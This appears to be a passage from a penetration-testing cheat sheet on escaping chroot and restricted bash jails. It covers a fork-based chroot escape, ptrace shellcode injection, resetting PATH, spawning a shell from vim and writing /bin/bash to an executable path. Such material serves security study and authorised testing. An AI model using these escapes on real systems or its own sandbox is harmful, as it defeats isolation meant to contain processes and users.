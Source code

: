 ### Root(?) + Fork

{% hint style="warning" %}
* Create a Fork (child proc) and chroot into a different folder deeper in the FS and CD on it
* From the parent process, move the folder where the child process is in a folder previous to the chroot of the children
* This children process will find himself outside of the chroot
{% endhint %}

### ptrace

{% hint style="warning" %}
* Time ago users could debug its own processes from a process of itself... but this is not possible by default anymore
* Anyway, if it's possible, you could ptrace into a process and execute a shellcode inside of it ([see this example](linux-capabilities.md#cap\_sys\_ptrace)).
{% endhint %}

## Bash Jails

### Enumeration

Get info about the jail:

```bash
echo $SHELL
echo $PATH
env
export
pwd
```

### Modify PATH

Check if you can modify the PATH env variable

```bash
echo $PATH #See the path of the executables that you can use
PATH=/usr/local/sbin:/usr/sbin:/sbin:/usr/local/bin:/usr/bin:/bin #Try to change the path
echo /home/* #List directory
```

### Using vim

```bash
:set shell=/bin/sh
:shell
```

### Create script

Check if you can create an executable file with _/bin/bash_ as content

```bash
red /bin/bash
> w wx/path #Write /bin/bash in a writable and executable path
```

